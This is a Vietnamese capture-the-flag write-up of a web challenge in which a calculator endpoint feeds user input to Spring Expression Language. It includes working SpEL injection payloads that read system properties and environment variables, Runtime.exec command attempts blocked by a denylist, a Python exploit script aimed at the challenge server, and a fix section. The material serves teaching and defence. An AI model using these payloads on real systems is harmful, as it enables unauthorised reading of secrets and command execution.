








# PTITCTF 2026

## 2. Web - I Don't Want to be an Engineer

### Mô tả bài

Challenge cung cấp một web app mô phỏng quyển sổ để nhập phép tính. Mục tiêu là khai thác chức năng tính toán để đọc flag.

Backend đưa trực tiếp giá trị `expr` do người dùng kiểm soát vào **Spring Expression Language (SpEL)**. Do SpEL vẫn cho phép truy cập một số class Java, ta có thể gọi `java.lang.System.getenv()` để đọc biến môi trường chứa flag.

### Phân tích và khai thác

Trong HTML có input để nhập biểu thức:

```html
<input id="e" type="text" inputmode="text" autocomplete="off" autocapitalize="off" spellcheck="false" aria-label="Calculation written in the notebook"/>
```

JavaScript gửi dữ liệu tới endpoint `/calculate`:

```javascript
const response = await fetch('/calculate', {
  method: 'POST',
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
  body: 'expr=' + encodeURIComponent(e.value)
});
const json = await response.json();
```

Suy ra request cần dùng:

- Method: `POST`.
- Endpoint: `/calculate`.
- Content-Type: `application/x-www-form-urlencoded`.
- Tham số do người dùng kiểm soát: `expr`.


Gửi một phép tính hợp lệ để lấy baseline:



Response:

```json
{"answer":"4","status":"ok"}
```

Endpoint thực sự evaluate biểu thức thay vì chỉ hiển thị lại input.

Tiếp theo gửi một identifier không tồn tại:



Response:

```json
{"answer":"EL1007E: Property or field 'hello' cannot be found on null","status":"error"}
```

Mã lỗi `EL1007E` là lỗi của Spring Expression Language, xác nhận input đang được đưa vào SpEL evaluator.

Trong SpEL, cú pháp `T(...)` dùng để tham chiếu tới một Java type. Thử đọc một system property:

```java
T(java.lang.System).getProperty('java.version')
```



Response:

```json
{"answer":"11.0.32","status":"ok"}
```

Kiểm tra thêm:

```text
T(java.lang.System).getProperty('os.name')
```



```json
{"answer":"Linux","status":"ok"}
```

```text
T(java.lang.System).getProperty('user.dir')
```



```json
{"answer":"/app","status":"ok"}
```

Các response trên chứng minh SpEL cho phép truy cập static class và gọi method Java.

Payload thường được thử đầu tiên là gọi `Runtime.exec()`:

```text
T(java.lang.Runtime).getRuntime().exec('id')
```



Server trả về:

```json
{"message":"No mistake. I can only guess what\u0027s right -- not that.","status":"blocked"}
```

Payload đọc flag bằng command cũng bị chặn:

```text
T(java.lang.Runtime).getRuntime().exec('cat /flag')
```



Việc truy cập `java.lang.Runtime` thông qua `Class.forName()` cũng cho kết quả `blocked`. Điều này cho thấy ứng dụng có denylist đối với các pattern RCE rõ ràng như `Runtime` và `exec`.

Tuy nhiên, đây không phải sandbox an toàn. Vì `java.lang.System` vẫn được phép truy cập, ta chuyển sang kiểm tra environment.

Biểu thức SpEL để đọc trực tiếp biến môi trường:

```text
T(java.lang.System).getenv()
```




Payload hoạt động vì `T(java.lang.System)` tham chiếu tới class `System`, sau đó `getenv()` lấy giá trị các biến môi trường. Backend đặt kết quả evaluate vào trường `answer`, nên flag được trả về trực tiếp trong JSON.


#### Script khai thác

```python
import json
import urllib.parse
import urllib.request

URL = "http://144.79.188.39:47096/calculate"
EXPR = "T(java.lang.System).getenv('FLAG')"

body = urllib.parse.urlencode({"expr": EXPR}).encode()
request = urllib.request.Request(
    URL,
    data=body,
    method="POST",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)

with urllib.request.urlopen(request, timeout=10) as response:
    result = json.load(response)

if result.get("status") != "ok":
    raise RuntimeError(result)

print(result["answer"])
```

---

### Root cause

Lỗ hổng xuất phát từ việc backend dùng expression evaluator cho dữ liệu do người dùng nhập nhưng không giới hạn chặt chẽ evaluation context. Việc cho phép `T(java.lang.System)` và gọi method tùy ý khiến người dùng có thể đọc system properties, environment variables và có khả năng truy cập các API Java nhạy cảm khác.

Việc block một số chuỗi RCE bằng denylist không đủ an toàn. Cách khắc phục là không evaluate input tùy ý bằng SpEL. Nếu cần hỗ trợ phép tính, nên dùng parser chỉ cho phép grammar số học hoặc cấu hình evaluation context theo allowlist chặt chẽ, đồng thời tắt type access.

**Flag:**

```text
PTITCTF{Http5://YOutU.B3/nREGo3_4jNq?S1=soM30ne_TeLl_veDa1_tHere_i5_4_PRObIEM_W1TH_my_al_[Te4m)H4sh]}
```


